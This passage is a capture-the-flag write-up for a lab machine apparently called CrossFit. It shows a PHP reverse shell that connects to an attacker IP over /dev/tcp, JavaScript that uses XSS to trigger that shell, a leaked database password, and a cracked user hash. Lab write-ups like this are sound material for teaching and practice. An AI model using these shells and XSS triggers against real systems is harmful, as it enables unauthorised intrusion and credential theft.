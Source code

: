 - And there is another domain development-test, lets check that out
- If we see that directory has read and write permissions means we can put our shell in that and then try to to trigger the shell.
- but we can't trigger it from our side, we have to use XSS again

shell.php
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.13/1234 0>&1'"); ?>
```
put this php file in development-test directory

trigger.js
```js
 var r = new XMLHttpRequest();
    r.open("GET",'http://development-test.crossfit.htb/shell.php',false);
    r.send();
```

Again sending the request with our exploit.py and triggering the shell.
We got foothold


## User

Found some password in gym-club/db.php
```php
cat db.php
<?php
$dbhost = "localhost";
$dbuser = "crossfit";
$dbpass = "oeLoo~y2baeni";
$db = "crossfit";
$conn = new mysqli($dbhost, $dbuser, $dbpass, $db);
?>

```

Running linepeas gave us two important thing
1. cronstab is running a php script
2. hash for Hank

```
/etc/ansible/playbooks/adduser_hank.yml
$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/

hank: powerpuffgirls
```

Crack the hash and login

## **Root**

for root we first need to escalate to Issac
Remember he is running a php script from cronjob
